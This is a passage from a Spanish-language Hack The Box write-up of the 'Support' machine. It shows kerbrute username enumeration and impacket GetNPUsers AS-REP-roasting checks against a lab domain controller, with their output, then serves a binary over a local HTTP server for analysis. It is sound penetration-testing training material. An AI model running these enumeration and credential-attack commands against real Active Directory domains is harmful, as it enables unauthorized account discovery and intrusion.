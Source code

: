 ```bash
kerbrute userenum -d support.htb --dc 10.10.11.174 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
```bash
2023/02/17 21:43:24 >  [+] VALID USERNAME:	support@support.htb
2023/02/17 21:43:28 >  [+] VALID USERNAME:	guest@support.htb
2023/02/17 21:43:58 >  [+] VALID USERNAME:	administrator@support.htb
```

## TGT GETNPUSERS ENUM

Obtenemos 4 usuarios validos con el ejercicio anterior! Ahora vamos a realizar la misma validación con la herramienta `GetNPUsers`

```bash
impacket-GetNPUsers support.htb/ -no-pass -usersfile users.txt
```
```bash
[-] User ldap doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Ahora validamos los usuarios del diccionario de `Seclists`

```bash
impacket-GetNPUsers support.htb/ -no-pass -usersfile /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt | grep -v "not found"
```
```bash
[-] User support doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```
## UPDATING USERS DICTIONARY 

Actualizamos el diccionario de usuarios que creamos anteriormente

```bash
nvim users.txt
```
```bash
ldap@support.htb
guest@support.htb
support-tools@support.htb
administrator@support.htb
```

## WINDOWS MACHINE USERINFO.EXE ENUM

Tenemos que entender que hace este programa a ver si podemos tener alguna información importante para continuar

### MAQUINA ATACANTE

```bash
sudo python3 -m http.server 80
```
### MÁQUINA WINDOWS
>
* Agregar DOMAIN al archivo HOSTS de WINDOWS
* Prender OPENVPN
* Descargar en navegador USERINFO.EXE.ZIP, descomprimir y comprender su funcionamiento
```bash
http://<IP_ATACANTE>/UserInfo.exe.zip
```
>
<p style="text-align: center;">